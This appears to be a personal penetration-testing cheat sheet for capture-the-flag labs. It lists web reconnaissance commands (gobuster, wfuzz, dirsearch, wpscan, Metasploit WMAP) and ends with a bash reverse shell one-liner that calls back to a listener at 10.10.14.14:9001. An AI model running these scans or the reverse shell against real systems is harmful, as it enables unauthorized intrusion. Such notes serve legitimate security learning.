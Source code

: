 ## Directory Discovery

Word lists are at `/usr/share/wordlists` (In KALI)

```
gobuster dir -u URL:port -t threads -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
```

## Search for subdomains

```
gobuster vhost -u https://NAME.htb -w /opt/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -k
```

```
wfuzz -w /opt/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -u URL -v -c -H "Host:FUZZ.NAME.htb" --hw 26
```

Search for PHP files

```
gobuster dir -u http://IP/ -t 80 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php
```

Backup: (Can get through things ^^^ can't)

```
dirsearch -u http://ipaddress
```

```
dirb http://IP/
```

-X .sh - extensions to search

-w /path/to/wordlist - wordlist


## Replicate website on local storage

```
wget http://ip/ -r
```
https:
```
wget http://ip/ -r --no-check-certificate
```

## Wordpress vulnerability checker

```
wpscan --url URL
```

--plugin-detection aggressive    -   Takes a long time, but digs up good dirt


## WMAP - Map website tool

Load module in msfconsole
```
load wmap
```

Add target site
```
wmap_sites -a http://IP
```
And
```
wmap_targets -t http://ip-address
```
Execute
```
wmap_run -e
```


## Reverse Shell through encded URL

```
bash -c 'bash -i >& /dev/tcp/10.10.14.14/9001 0>&1'
```
